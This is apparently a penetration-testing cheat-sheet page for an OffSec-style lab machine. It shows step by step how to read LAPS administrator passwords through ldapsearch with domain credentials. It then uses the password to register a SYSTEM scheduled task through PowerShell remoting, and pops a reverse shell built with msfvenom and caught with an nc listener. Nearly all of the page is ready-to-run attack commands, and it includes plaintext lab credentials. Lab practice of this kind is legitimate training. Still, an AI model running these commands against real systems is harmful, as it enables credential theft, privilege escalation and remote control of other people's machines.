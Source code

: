 ```yaml
---
description: >-
  Sometimes, you can query LAPS password via ldapsearch. You could use the
  password to create a task scheduler to escalate
---
```


# LAPS password

### Enumerate

{% code overflow="wrap" %}
```bash
Kali> ldapsearch -H ldap://$RHOST -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

# WinEPAS or AdPEAS may capture the LAPS password as well. 
```
{% endcode %}

### Create a tasklist.&#x20;

{% code overflow="wrap" %}
```bash
PS> $pw = ConvertTo-SecureString "iF1n(Q5m2Fv9u3" -AsPlainText -Force
PS> $creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
PS> Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\inetpub\wwwroot\shell.exe /ru SYSTEM } -Credential $creds
```
{% endcode %}

### Execution

{% code overflow="wrap" %}
```bash
Kali> msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.142.155 LPORT=53 -f exe -o shell.exe
Kali> rlwrap nc -nlvp 53

PS> Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /run /tn shell } -Credential $creds
```
{% endcode %}
